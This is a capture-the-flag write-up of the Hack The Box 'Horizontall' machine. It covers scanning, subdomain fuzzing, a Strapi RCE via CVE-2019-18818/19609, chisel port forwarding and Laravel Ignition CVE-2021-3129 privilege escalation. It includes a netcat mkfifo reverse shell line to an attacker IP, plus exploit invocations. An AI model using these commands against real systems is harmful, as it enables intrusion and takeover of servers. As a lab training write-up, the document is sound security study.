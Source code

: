 # Horizontall

## Information Gathering

The first thing I did was run a Rustscan on the target

```bash
rustscan -a 10.129.151.240 -- -A -sC -sV
```

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add <mark style="color:green;">horizontall.htb</mark> to our <mark style="color:green;">/etc/hosts</mark> file since in the output we got "_Did not follow redirect to http://horizontall.htb_"

Searching on Google informs us that the latest version of <mark style="color:green;">nginx</mark> is <mark style="color:green;">1.21.6</mark> (mainline version) and <mark style="color:green;">1.20.2</mark> (stable version). We'll keep this in mind

![](<../../../.gitbook/assets/image (7).png>)

Going to the site, we see a web page.

![](<../../../.gitbook/assets/image (36).png>)

## Enumeration

Viewing the source code and going through the site really did not provide anything useful. However, is it possible for the nginx server to have more vhosts? Using ffuf, we will see something

```bash
ffuf -u http://horizontall.htb -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.horizontall.htb' -fs 0 -mc 200 
```

![](<../../../.gitbook/assets/image (30).png>)

After adding this subdomain to our /etc/hosts file, we head back over to the browser, for which we are presented with a basic welcome page

![](<../../../.gitbook/assets/image (42).png>)

Time to enumerate some more. Now there are two interesting directory that we can explore

![](<../../../.gitbook/assets/image (35).png>)

The reviews directory yields us some users: <mark style="color:green;">wail</mark>, <mark style="color:green;">doe</mark>, and <mark style="color:green;">john</mark>

![](<../../../.gitbook/assets/image (33).png>)

And the admin page

![](<../../../.gitbook/assets/image (40).png>)

Doing a google search on strapi shows that it is an open source Node.js headless CMS

Great! Now hopefully we can a version number somewhere

![](<../../../.gitbook/assets/image (16).png>)

It seems the current version of <mark style="color:green;">Strapi</mark> is <mark style="color:green;">3.0.0-beta.17.4</mark>

![](<../../../.gitbook/assets/image (37).png>)

Using Searchsploit gives us some good news. An [RCE](https://www.exploit-db.com/exploits/50239)!

![](<../../../.gitbook/assets/image (58).png>)

## Foothold

According to [CVE-2019-18818](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-18818)

> Strapi before 3.0.0-beta.17.5 mishandles password resets within packages/strapi-admin/controllers/Auth.js and packages/strapi-plugin-users-permissions/controllers/Auth.js."

There's also [CVE-2019-19609](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19609)

> The Strapi framework before 3.0.0-beta.17.8 is vulnerable to Remote Code Execution in the Install and Uninstall Plugin components of the Admin panel, because it does not sanitize the plugin name, and attackers can inject arbitrary shell commands to be executed by the execa function.

We run the exploit and then log into the using <mark style="color:green;">`admin:SuperStrongPassword1`</mark>

![](<../../../.gitbook/assets/image (63).png>)

![](<../../../.gitbook/assets/image (24).png>)

Awesome! Now there's Plugin called "Files Upload", let's see if we can upload a file to get a reverse shell.&#x20;

I tried multiple times to get a shell, but the output of the file yielded something like this:

![](<../../../.gitbook/assets/image (69).png>)

```bash
http://localhost:1337/uploads/0083c7ac6ed14dce9cc54821af03bf08.php
```

Which made sense based on the exploit code (that's why we see port 1337). I was thinking about if we could do something with changing the port, but that seemed like something too complex and lead to a deep rabbit hole. Then I thought, if we have RCE already from the exploit, couldn't we just try to get a shell that way?

As it turns out, that was a very quick solution

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 4444 >/tmp/f
```

![](<../../../.gitbook/assets/image (64).png>)

After upgrading my shell, I searched for the user.txt file

![](<../../../.gitbook/assets/image (46).png>)

## More Enumeration

I ran linepeas.sh and noticed something interesting. Looks like there is MySQL running and something else on port 8000. What is that port used for?

![](<../../../.gitbook/assets/image (41).png>)

A Google search gave me this result

> TCP Port 8000 is commonly used for development environments of web server software. It generally should not be exposed directly to the Internet. If you are running software like this on the Internet, you should consider placing it behind a reverse proxy.
>
> [Source](https://www.elastic.co/guide/en/siem/guide/current/tcp-port-8000-activity-to-the-internet.html)

This most likely means we might have to do some port forwarding in order to see the website. But first let's see if we can grab some information before doing this.

Using <mark style="color:green;">`curl -v localhost:8000`</mark> gave us a site powered by Laravel AND it's version number

![](<../../../.gitbook/assets/image (65).png>)

Searching for exploits I found these which were helpful

{% embed url="https://www.exploit-db.com/exploits/49424" %}

{% embed url="https://www.ambionics.io/blog/laravel-debug-rce" %}

{% embed url="https://github.com/nth347/CVE-2021-3129_exploit" %}

According to [CVE-2021-3129](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-3129)

> Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file\_get\_contents() and file\_put\_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

## Port Forwarding&#x20;

Now to do some port forwarding. We'll use the [chisel ](https://github.com/jpillora/chisel)tool

We'll transfer it to our victim machine and make it an executable

![](<../../../.gitbook/assets/image (34).png>)

Then we'll run the below commands on our kali machine and the victim machine respectively

```bash
./chisel server -p 7777 --reverse # Kali machine
./chisel client 10.10.14.38:7777 R:8000:127.0.0.1:8000 # on Victim
```

![](<../../../.gitbook/assets/image (38).png>)

![Victim machine](<../../../.gitbook/assets/image (5).png>)

Now when we go to <mark style="color:green;">`http://127.0.0.1:8000`</mark> in the browser, we can see the Laravel site

![](<../../../.gitbook/assets/image (49).png>)

## Privilege Escalation

Using the GitHub resource for the Laravel vulnerability, we'll execute the following command

```python
./privesc.py http://localhost:8000 Monolog/RCE1 "whoami"
```

![](<../../../.gitbook/assets/image (67).png>)

Awesome! Now we can cat the root.txt file

![](<../../../.gitbook/assets/image (59).png>)

This is nice, but a shell would be nicer

Piping our python and netcat commands into /bin/bash technically works, but you won't see the output until stop the connection. So I decided to pipe that into another netcat call which worked better, although there may be a better solution

![](<../../../.gitbook/assets/image (18).png>)

![](<../../../.gitbook/assets/image (55).png>)

{% hint style="info" %}
Although we get a shell, it's not very stable. But it does the job regardless
{% endhint %}

SUCCESS!

![](<../../../.gitbook/assets/image (15).png>)
